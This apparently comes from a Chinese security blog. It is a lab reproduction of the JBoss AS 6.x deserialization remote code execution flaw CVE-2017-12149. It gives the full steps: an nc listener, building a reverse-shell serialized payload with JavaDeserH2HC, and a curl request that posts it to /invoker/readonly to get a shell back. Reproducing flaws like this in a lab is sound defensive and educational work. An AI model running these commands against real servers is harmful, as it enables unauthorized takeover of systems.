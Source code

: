 ```yaml
---
layout:     post
title:      【漏洞复现】Jboss AS 6.X 反序列化漏洞复现（CVE-2017-12149）
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 漏洞说明
JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用，2006年，JBoss被Redhat公司收购。

2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。JBOSSApplication Server反序列化命令执⾏漏洞。

## 0x01 影响版本
JBoss5.x-6.x
## 0x02 复现环境
win10
kali
jboss-6.1.0.Final
JavaDeserH2HC
## 0x03 漏洞复现
下载jboss-as-6.1.0-final http://jbossas.jboss.org/downloads/ 解压并添加环境变量
```
C:\JBOSS\jboss-6.1.0.Final 
%JBOSS_HOME%\bin
```
run.bat -b 0.0.0.0 运行 Jboss
![-c833](/img/16027835626091.jpg)

访问 http://192.168.111.183:8080/
![-c907](/img/16027835738963.jpg)
访问 http://192.168.111.183:8080/invoker/readonly 若显示HTTP Status 500 -,则漏洞可能存在。 
![-c932](/img/16027835849283.jpg)
开启监听4444端口,nc -vlp 4444 
![-c950](/img/16027835967956.jpg)

下载反序列化⼯具: http://scan.javasec.cn/java/JavaDeserH2HC.zip
```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap IP:4444
（IP是kali的ip,4444是下面要监听的端口，这里写哪个端口下面就要监听哪个端口）
```
这个时候在这个⽬录下⽣成⼀个ReverseShellCommonsCollectionsHashMap.ser⽂件
curl http://IP:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
![-c948](/img/16027836090572.jpg)
成功反弹shell
![-c610](/img/16027836199322.jpg)

